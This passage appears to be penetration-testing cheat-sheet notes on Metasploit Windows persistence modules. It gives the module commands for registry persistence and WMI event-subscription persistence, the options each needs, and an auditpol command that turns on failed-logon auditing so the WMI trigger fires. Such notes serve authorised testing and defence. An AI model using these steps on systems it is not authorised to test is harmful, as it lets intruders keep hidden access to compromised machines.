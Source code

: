 ```
use exploit/windows/registry/local/registry_persistence
```

* Ensure to set the `RUN_NAME` at a minimum
* WMI Event Subscription Persistance

```
use exploit/windows/local/wmi_persistence
```

* Ensure failed login auditing is enabled on target
* To enable:

```
auditpol.exe /set /subcategory:Logon /failure:Enable
```

* Event ID for a failed logon is `4625`
* Ensure to set the `USERNAME_TRIGGER` and `SESSION` at a minimum
* Cannot be run as SYSTEM or USER needs to be run with ADMINISTRATOR
